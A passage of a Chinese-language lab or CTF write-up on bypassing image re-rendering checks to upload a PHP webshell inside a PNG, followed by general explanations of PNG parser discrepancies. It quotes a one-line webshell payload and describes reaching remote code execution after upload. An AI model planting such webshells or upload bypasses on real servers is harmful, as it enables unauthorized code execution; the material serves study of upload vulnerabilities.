 生成图片后利用bp进行上传，值得一提的是如果抓的是*查看图片*的包的话需要加入请求头：

```
Content-Type: application/x-www-form-urlencoded
```

![](assets/image-20250317210520140.png)

（木马的内容是`<?=$GET_[0]($POST_[1]);?>`所以这里这样写）

上传成功就可以进行rce了

**二次渲染漏洞的产生原因**

> 不同解析器的兼容性差异：不同的软件、浏览器或操作系统中的 PNG 解析库对图像的解析方式有所不同。例如，某些解析器可能对格式不规范的 PNG 文件宽容处理，而其他解析器则会严格遵循规范。当同一个 PNG 文件被不同软件解析时，可能会出现不同的渲染结果。
>
> 损坏文件的不同处理方式：一些 PNG 文件可能在结构上经过故意破坏（例如块顺序异常、块大小不一致或非法数据填充）。某些解析器会忽略这些问题继续渲染图像，而其他解析器可能会按照不同的规则处理，甚至放弃渲染。这种处理方式的差异可能导致同一个文件在不同环境下显示不同的图像内容。
>
> 利用非法块或多义性：PNG 文件中可能包含多义性块，或者包含了无效数据的块。不同的解析器在处理这些数据时可能会采取不同的操作路径。例如，一个图像头块 (IHDR) 的错误定义可能会导致某些解析器按错误的格式渲染图像，而其他解析器可能能识别并校正错误。

**PNG 二次渲染漏洞的典型利用方式**

> （1）篡改块内容或顺序： 攻击者可能会故意改变 PNG 文件中的块内容或块顺序，使得不同的解析器呈现不同的结果。比如：
>
> 在一个浏览器中，图像可能被正常显示；
> 而在另一个浏览器中，图像可能显示错误或者带有恶意内容（例如广告或攻击性内容）。
> 这种情况可能涉及块中的元数据或图像数据的篡改，造成渲染差异。
>
> （2）损坏的图像数据： 通过损坏或操纵 IDAT 块（图像数据块），攻击者可以在某些情况下影响图像的解压和显示效果。例如，PNG 图像的图像数据采用的是 zlib 压缩算法，不同的解压库可能对损坏数据的容忍度不同，导致渲染效果不同。
>
> （3）颜色管理和透明度问题： PNG 支持丰富的颜色深度和透明度通道。有时，通过故意操纵颜色通道数据（如 alpha 通道），攻击者可以使得某些渲染器显示不同的透明度效果。例如：
>
> 在某些浏览器中，图像可能会显示为透明；
> 在其他浏览器中，图像则可能不透明，甚至显示出攻击者隐藏的恶意图像。
> （4）文本注释块（tEXt）滥用： 某些 PNG 文件可能包含文本注释块 (tEXt)，这些注释通常包含元数据，但如果这些数据被故意操控，可能会在某些解析器中触发不同的行为（如展示错误或乱码）。此外，一些文本注释块可以包含恶意内容，如脚本注入，导致跨站脚本攻击（XSS）。
